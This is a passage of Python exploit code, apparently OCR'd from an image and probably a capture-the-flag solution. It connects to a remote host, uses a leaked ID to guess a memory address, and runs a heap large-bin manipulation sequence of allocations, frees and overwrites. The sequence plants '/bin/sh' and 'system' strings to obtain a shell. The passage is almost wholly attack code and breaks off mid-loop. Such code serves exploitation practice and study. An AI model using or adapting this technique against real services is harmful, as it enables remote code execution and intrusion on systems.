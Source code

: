 ```python
        if newline:
                p.sendline(payload[:-1])
                sleep(1)
        else:
                p.send(payload)
                sleep(1)
############### main exploit    ###############
#p.close()
while True:

        try :
                p=remote(host,port)
                p.recvuntil("Your ID: ")
                leak=int(p.recvline()[:-1])
                guess=(leak<<12) + 0x328+0x9000+0x5d0000
                print(hex(guess))


                malloc(0,0x520) # vuln
                edit(0,b"a"*(0x47-0x30)+b"system\x00")

                malloc(8,0x800)
                free(8)

                malloc(5,0x500)
                malloc(6,0x500)  # this one overwrites smaller-0x10


                free(5)
                free(6)
                malloc(10,0x520) # for consolidation
                malloc(1,0x510)  # smaller

                malloc(3,0x800) #for consolidation
                edit(3,(p64(0)+p64(0x101))*(0x300//16))

                free(0)
                malloc(9,0x800) # to push 0 to large bin

                link(0,0)
                #guess=b""
                setout(0,b"\x90",p32(guess)[:3])


                free(1)
                #debug()
                malloc(10,0x800) # to push 1 to large bin

                malloc(7,0x800)  # just to free 10 later


                edit(9,(p64(0)+p64(0x101))*(0x800//16),True)
                sleep(0.5)
                edit(8,b"a"*0x500+p64(0)+p64(0x701)+b"a",True)
                #pause()
                sleep(0.5)
                free(10)
                free(6)
                link(6,6)

                edit(10,b"/bin/sh\x00"+b"a"*(0x47-0x30-8)+b"system\x00\x00",True)
                sleep(0.5)
                #pause()
```